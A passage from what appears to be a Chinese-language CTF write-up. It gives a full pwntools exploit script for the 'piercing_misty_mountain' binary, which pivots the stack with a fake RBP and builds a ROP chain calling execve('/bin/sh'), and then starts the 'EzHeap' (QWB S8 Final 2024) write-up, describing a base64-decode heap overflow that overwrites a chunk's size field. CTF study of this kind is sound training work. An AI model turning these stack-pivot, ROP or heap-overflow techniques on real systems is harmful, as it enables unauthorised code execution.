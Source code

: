 ### exp
```py
from pwn import*
context(log_level="debug", arch="amd64", os="linux")
p=process("./piercing_misty_mountain")

p.recvuntil("Name > ")
p.sendline("A"*0x20)
p.recvuntil("Job\n")
p.sendline("3")
fake_rbp = 0x4c73c0 + 0x1000
payload = b"a"*4 + p64(fake_rbp) + p64(0x401AAB)
p.recvuntil("Job > ")
p.send(payload)
# gdb.attach(p)
# pause()
p.recvuntil("Age > ")
p.sendline("13")
sleep(0.1)
pop_rdi = 0x40217f
pop_rsi = 0x40a1ee
pop_rax = 0x450847
pop_rdx = 0x44afa2
syscall = 0x044FDF0
binshell = 0x4c73c0 + 0x100
payload = p64(pop_rdi) + p64(binshell) + p64(pop_rsi) + p64(0) + p64(pop_rdx) + p64(0) + p64(pop_rax) + p64(59) + p64(syscall)
payload = payload.ljust(0x100, b"\x00") + b"/bin/sh\x00"
p.sendline(payload)
p.recvuntil("Job\n")
p.sendline("3")
payload = b"a"*4 + p64(0x4c73b8) + p64(0x401A63)
p.recvuntil("Job > ")
p.send(payload)
p.recvuntil("Age > ")
p.sendline("13")

p.interactive()

```
## EzHeap - QWB S8 Final 2024
给了一个 base64 加解密的函数，漏洞点在 base64 decode 的时候有3字节溢出，所以可以覆盖到下一个 chunk 的 size 位     
但是因为它的算法，可以说是溢出的最高字节是不可控的，因为栈布局而是 0x41,所以**需要控制只溢出一位，覆盖后一个堆块的 size 为0x41**    
构造如图情况     
![alt_text](/assets/img/uploads/qwb_ezheap_demo.png)
